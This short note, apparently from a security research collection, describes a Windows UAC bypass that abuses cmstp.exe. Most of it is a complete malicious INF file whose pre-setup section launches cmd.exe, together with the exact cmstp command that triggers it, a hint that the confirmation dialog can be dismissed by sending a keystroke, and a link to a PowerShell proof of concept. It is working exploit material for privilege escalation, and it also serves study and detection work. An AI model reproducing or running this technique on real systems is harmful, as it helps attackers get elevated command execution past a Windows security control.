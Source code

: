 From:
https://msitpros.com/?p=3960

corpvpn.inf:

```
[version]
Signature=$chicago$
AdvancedINF=2.5
 
[DefaultInstall]
CustomDestination=CustInstDestSectionAllUsers
RunPreSetupCommands=RunPreSetupCommandsSection
 
[RunPreSetupCommandsSection]
; Commands Here will be run Before Setup Begins to install
C:\Windows\System32\cmd.exe
taskkill /IM cmstp.exe /F
 
[CustInstDestSectionAllUsers]
49000,49001=AllUSer_LDIDSection, 7
 
[AllUSer_LDIDSection]
"HKLM", "SOFTWARE\Microsoft\Windows\CurrentVersion\App Paths\CMMGR32.EXE", "ProfileInstallPath", "%UnexpectedError%", ""
 
[Strings]
ServiceName="CorpVPN"
ShortSvcName="CorpVPN"
```

cmd:

`C:\Windows\System32\cmstp.exe corpvpn.inf /au`

Then pop up a dialog box,need to click OK.

But we can send a key to it.

POC:

https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e#file-uacbypasscmstp-ps1

